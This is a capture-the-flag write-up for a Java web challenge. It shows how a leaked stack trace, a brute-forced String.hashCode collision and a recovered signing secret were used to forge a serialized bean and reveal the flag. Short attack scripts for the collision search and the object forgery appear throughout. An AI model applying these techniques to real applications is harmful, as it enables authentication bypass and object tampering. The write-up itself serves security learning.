 ## Not My Cup of Coffee (Web, 300 points, 63 solves)

    I heard you liked food based problems, so here's a liquid one.


We are given a url for Passion Beans `where the true value of beans are preserved`. After checking the various web chal tricks we start looking at the actual page. On the page are a list of Beans with a Name, Description, Parent1, Parent2, and an inheritable flag. One of which is a bean called "Flag". Also on the page are two links, one to a page where you can breed two beans together, and another for an admin login.

Taking a look first at the breeding page we can create a new bean by giving it a name, description, and choosing two parents. The Parents are base64 encoded strings with an appended hash. We can verify the hash is a security feature by changing the input and testing. The correct base64 string and hash are indeed required. We also find that creating a bean with no description inherits the description from the parent. This is useful knowledge for the future. Based on the `.jsp` extension we correctly deduce these are serialized java objects. We can decode them and  gain more information about the backend via `jdeserialize` from google.

```bash
echo -n $1 | base64 -d > /tmp/jde
if [ ! -f /tmp/jdeserialize-1.2.jar ]; then
    wget "https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/jdeserialize/jdeserialize-1.2.jar" -O "/tmp/jdeserialize-1.2.jar"
fi
java -jar /tmp/jdeserialize-1.2.jar /tmp/jde
```

The second page to now investigate is the admin login. Entering some strings to test for vulnerabilities such as sql injection we get an error that `Only alphanumeric characters allowed`. The `/password.jsp` submits us to `/admin.jsp`. Purely accidentally browsing to various urls I went to `/admin.jsp` as a GET with no params. Giving us this helpful error output.

```java
Exception: org.apache.jasper.JasperException: An exception occurred processing [/admin.jsp] at line [28]

25:           String result;
26:           // NOTE: Change $ to s when page is ready
27:           auth.loadPassword("Pas$ion");
28:           if (!guess.matches("[A-Za-z0-9]+")) {
29:             result = "Only alphanumeric characters allowed";
30:           } else {
31:             result = auth.lookup(guess.hashCode());
32:           }
```

This expection page leaks a portion of the code. Allowing us to look for a vulnerability to access the admin page. We see the password is `Pas$ion` and the regex is verifying we only use alphanumeric charcters. Reading the reference documents for the various functions used we find that the java String function `matches` matches (_heh_) the entire string. Making the regex actually act like the pattern `^[A-Za-z0-9]+$`. This should be reasonably safe. So instead let's turn out attention to `hashCode`. A very quick search tells us just how unsafe this function is. We can easily brute-force collisions with some terrible java code. _Replacing only the $ didn't find any collisions so let's try both._

```java
int code = "Pas$ion".hashCode();
String str = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
for (char c1 : str.toCharArray()) {
  for (char c2 : str.toCharArray()) {
    String s = "Pa" + c1 + c2 + "ion";
    if (code == s.hashCode()) {
      System.out.println(s);
    }
  }
}
```

This code gives a few options, the first of which is `Paqbion`. Entering this into the admin console presents us with a seemingly random string `c@ram31m4cchi@o`. This is of course the secret key used to verify the base64 encoded beans and can be verified with this one-liner bash script.

```bash
echo $1"c@ram31m4cchi@o" | hashalot -q -x sha256
```

With the secret key known for the sha256 calculation we should now have everything we need to spoof the Flag and create a new bean to obtain the flag. We'll use sed to replace the name of another four letter bean with the word _Flag_. We have a couple choices but I chose _Raid_.

```bash
ENCODED="rO0ABXNyAA9jb2ZmZWUuUmFpZEJlYW4AAAAAAAAAAQIAAHhyAAtjb2ZmZWUuQmVhbgAAAAAAAAABAgAETAAHaW5oZXJpdHQADUxjb2ZmZWUvQmVhbjtMAARuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAAHcGFyZW50MXEAfgACTAAHcGFyZW50MnEAfgACeHBwdAAEUmFpZHBw"
FLAG=$(echo -n $ENCODED | base64 -d | sed 's/Raid/Flag/g' | base64 -w 0)
SHA256=$(echo $FLAG"c@ram31m4cchi@o" | hashalot -q -x sha256)
echo $FLAG-$SHA256
```

With our created bean and correct hash we can submit it and hope for a solve. Editing the html of the page using our browsers Inspector and submitting creates our new _Solve_ bean with the flag in the description!

`flag{yd1dw3wr1t3th15j@v@is@n@landd0nt51@lize}`
